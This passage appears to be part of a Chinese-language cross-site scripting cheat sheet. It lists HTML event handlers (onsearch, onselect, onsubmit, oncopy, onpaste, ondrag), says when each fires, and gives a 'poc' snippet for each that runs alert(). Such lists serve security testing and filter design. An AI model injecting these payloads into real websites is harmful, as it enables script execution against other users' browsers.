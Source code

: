 **onsearch**
```
输入框输入内容按enter触发
```
poc
```
<input type="search" id="myInput" onsearch="alert()">
```

**onselect**
```
当文本被选中时，执行一段 Javascript代码
```
poc
```
<input type="text" value="Hello world!" onselect="alert()">
```

**onsubmit**
```
点击按钮触发
```
poc
```
<form action="#" onsubmit="alert()">
  <input type="submit" value="提交">
</form>
```

### 剪贴板事件

**oncopy**
```
当文本被复制时触发
```
poc
```
<p oncopy="alert(1)">加我QQ：123456</p>
```

**onpaste**
```
选中文本后右键粘贴触发
```
poc
```
<p onpaste="myFunction()">尝试在段落中粘贴内容。</p>
```

### 拖动事件

**ondrag**
```
鼠标左键点击按住左键然后拖动触发
```
poc
```
<p draggable="true"  ondrag ="alert(1)" >拖动我!</p>
<img src=https://www.baidu.com/img/bd_logo1.png ondrag ="alert(1)">
<a href='a' ondrag=alert(1)>aaa</a>
```
